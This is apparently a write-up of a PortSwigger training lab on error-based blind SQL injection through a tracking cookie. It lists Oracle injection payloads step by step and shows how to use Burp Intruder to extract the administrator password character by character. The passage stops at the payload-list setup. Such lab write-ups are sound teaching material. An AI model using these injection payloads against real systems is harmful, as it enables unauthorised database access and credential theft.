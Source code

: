 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution

!.Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.

![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/33ff3329-dfbe-48e2-90b0-b65d5033bc1b)

2. Modify the TrackingId cookie, appending a single quotation mark to it:

> TrackingId=xyz'
![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/dea37f1d-9561-41f0-807f-2f48053395ee)

Verify that an error message is received.

3. Now change it to two quotation marks:

> TrackingId=xyz''
![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/6ee7b165-fb9c-461d-b220-534724aac27f)

Verify that the error disappears. This suggests that a syntax error (in this case, the unclosed quotation mark) is having a detectable effect on the response.

4. We need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:

> TrackingId=xyz'||(SELECT '')||'
![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/fda7134e-52d2-4925-9733-938e4bcc6c8a)

In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:

> TrackingId=xyz'||(SELECT '' FROM dual)||'
![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/e05096ee-a751-45cc-86f4-a62173b71040)

As we no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

5. Now that we've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:

> TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/95c1df7e-f108-457f-a5b7-13ea88ce4276)

This time, an error is returned. This behavior strongly suggests that your injection is being processed as a SQL query by the back-end.

6. As long as we make sure to always inject syntactically valid SQL queries, you can use this error response to infer key information about the database. For example, in order to verify that the users table exists, send the following query:

> TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
![image](https://github.com/Nifalnasar/Web-Security-Lab/assets/141356053/dd794d50-6e15-4065-94d0-9f5e19c2226f)

As this query does not return an error, you can infer that this table does exist. Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break our concatenation.

7. We can also exploit this behavior to test conditions. First, submit the following query:

> TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/cea540e8-8620-406b-bbcc-95dd5c27765c)

Verify that an error message is received.

8. Now change it to:

> TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/814cafb4-ccaa-4c7b-a7ea-466c0d113258)

Verify that the error disappears. This demonstrates that we can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

9. We can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:

> TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/e4d60368-7f62-4509-8a5d-3d5b962c58de)
  
Verify that the condition is true (the error is received), confirming that there is a user called administrator.   

10. The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to

> TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/55542113-e689-4487-ae33-3bcfe111c16a)

This condition should be true, confirming that the password is greater than 1 character in length.

11. Send a series of follow-up values to test different password lengths. Send:

> TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/b9b42707-958a-42b5-87bb-1b803fee0b7a)

Then send:
> TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7ad35703-1d84-497e-be64-94a582cba34c)

And so on. We can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.

12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so we need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

13. In the Positions tab of Burp Intruder, change the value of the cookie to:

> TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a2846e28-f20d-4db5-9652-c6844a89ebbb)

 This uses the SUBSTR() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn. 

 14. Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. We should then see the following as the cookie value (note the payload position markers):

> TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
 ![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/d68fc116-8737-4067-87c7-eeb5c8adfada)

15. To test the character at each position, we need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload settings" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

    ![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/524d43c9-225c-48e4-ad1b-c952fb48a63c)
    ![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/31ed7957-938e-4ae0-949a-3184ebb65b95)
    ![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f10b2a7c-f78f-4454-a2ce-107f56d26dc7)

    ![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/99b4df6d-ad3a-4ec7-b1de-e37f6021d160)

